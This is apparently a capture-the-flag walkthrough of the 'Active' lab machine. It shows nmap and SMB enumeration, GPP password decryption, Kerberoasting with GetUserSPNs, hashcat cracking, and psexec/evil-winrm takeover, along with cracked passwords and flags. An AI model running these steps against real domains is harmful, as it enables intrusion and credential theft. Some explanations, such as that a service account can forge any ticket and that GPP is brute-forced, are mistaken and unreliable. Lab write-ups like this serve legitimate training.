



Active

nmap
nmap -sV -sC -oA active 10.10.10.100
noteworthy services include:
53 dns

88 kerberos server

135/445 SMB

3268 LDAP

all ports scan
Full port scan to see if our initial scan missed ports with discoverable services on them. Thorough enumeration is key in assessing any box in any scenario
we see winrm on port 47001 was missed in our initial scan:

Running a targeted scan with
nmap -p 47001 -sC -sV 10.10.10.100

smbclient
Lets enumerate Active's SMB service with smbclient and smbmap and see what we can findsmbclient -L \\\\10.10.10.100\\
where -L specifies host

further enumeration shows theres a share we have read access to
smbmap -H 10.10.10.100
where -H specifies host
 a
asmbclient bypass
knowing we have read permissions on the Replication share on this box, lets connect to it and see if there's any further information about this box we can discoversmbclient \\\\10.10.10.100\\Replication

download all files from the share with:
mget *

GPP Vuln
searching through Active's insecure smb share we come accross the file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xmland find there is a GPP or Group Policy Preferences Password stored in cpassword variable

Crack password with gpp-decrypt <PW>

Password is GPPstillStandingStrong2k18
Notes:
1. we just decrypted not just any service account on this windows active directory but its Ticket granting service, bypassing our need to run AD network mapping software like sharphound/bloodhound, this is a huge find and a gaping vulnerability on this machine.
2. Owning the TGS service will allow an attacker to generate tickets that will authenticate any user they want at any privilege level they want...
3. GPP is an outdated and easily brute-forced encryption algorithum that needs to be upgraded for a more hardened network infrastructure
kerberoast
now that we have creds to a valid service account on the box, we're going to bust out a tool called GetUserSPNs from the /impacket/ module (github it if you need)
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
where -dc-ip specifies domain controller ip

and save the hash to a local file
$krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$b81de9f05ec562cc23766123b9120ae3$4c0e26608eb1fb53870047876181ed998d423324662533e6fbde802c8e7bf07f45a75636969a836bfa734e6a0b2506f1bb503e8150228ad43f35fafe3e9d5996516214639a4a45f585739190a0fb5f3f0ffca70de7f9a2f10808ad23ca91b417cb2545c436e6af608373600a47a87f78bfac03b594f60bc5c20981e076e7e8654b13f79e33ccbf49785c07bfbf11268fd3ecb2fd0e0aca780e840c767c640e63659c87c45e78e664c10aaf14e8b6992895c1ae23e451cfaf3a80a01e0d24a10ada6ae5a241db50cd47a25ffe878c79197ec4678490e69974cb5eff89b21bcd7048c40230367d5fbb4b137f15fae3e9b2480d74d610cc535253178d1813c0cb42ccbc88b54108d83443c859ccc40789c7815d3853b11313a0fb55c255261e4357e82097093316afad3fb6b60469f4a53b4f50fa0751f2b3fa2bf9d89a828bf57fdaffd169f85cabdbd2b773441010ad13eb3e4588263571d8e861b5a4687c8bde313eb2f45ee16404fb27f96cd07d91475fde51bffddbad8ff8b42efa455efd6368b1e191f353326b342eeb6877274df3d6d22dc74e068e73cf3f7cfbe7d78a23983ee12971c14dfa98bee0d294224a3868ce22d08f6abec57f7800f5f91ea97d3bf153d797cfa4e8059678df49d14b622e46241b4225fef71d3f44b66b577ea2199a1bda01c8c8db5c564e6d1bd03772099b38daa06cd3690c72d9597c2ebd859e6c62402bb472fc6339aac54aed0a41291f0c7574ea2c3af8c97a364f7ae1ea676f708d861b49d5d09ba01374f899287092f762fdbca94ae7c09e77515c7eca5efafe02a2f3ca947d6552dea9c2b10eae311999e51d97f5b0e2ad1dd923e30f42dc836ac028373e7caa8f8d38ff8a91b9e313e899c721fb65f77511f95b2b33565aa94d298d321a27f0955e52111b98254315b20f5a41499f1c3ac8df0c18a57328dd5254de38747c6f3bef0bc0598c0970fa805dd0b5a2cd277ce2f6172deae14636183ea8795565650f151c8168c9190f7c62bbf0473e74016850af969e99827fe7979bd16149d11cc52f42d9fb4b0a026bd91a181772c9199135576bd4885d51275658cae61c98a742d2f09fc14444a7e19605d697d10fa78224c182764763974c60a34799bd9628a204a83c74a7d02f36251daa3a68deb478487b1a529e26696963aec465aeca4b3d2224039738f52e91c9d6e2c6dec8709d19d899cab1304a9650c77d72f3e0a7f72cebf719aa189388aac2a00718ca45
hashcat krb5tgs
First lets find out which hashcat mode decrypts Kerberos
lets save our hash to TGSHash.txt and see if the password is in the rockyou wordlist:
hashcat -m 13100 TGSHash.txt /usr/share/wordlists/rockyou.txt

CIFS~445

Password is Ticketmaster1968
notes
User Acct:
active.htb\SVC_TGS
GPPstillStandingStrong2k18
Kerberos Ticket Granting Ticket:
$krb5tgs$23$*Administrator$ACTIVE.HTB$active
Ticketmaster1968
Kerberost to Win (smbexec & meta)
With admin's password, we have our creds to own the box outright with SMBexec, evil-winrm or psexec:
successfully log in as root (evil-winrm works the same way)
We can also use the metasploit console's built in psexec module
msfconsole -> psexec win
search psexec

 +
+from any meterpreter shell you can spawn a regular shell on the victim machine at any time with
shell

User/Root

86d67d8ba232bb6a254aa4d10159e983

b5fc76d1d6b91d77b2fbf2d54d0f708b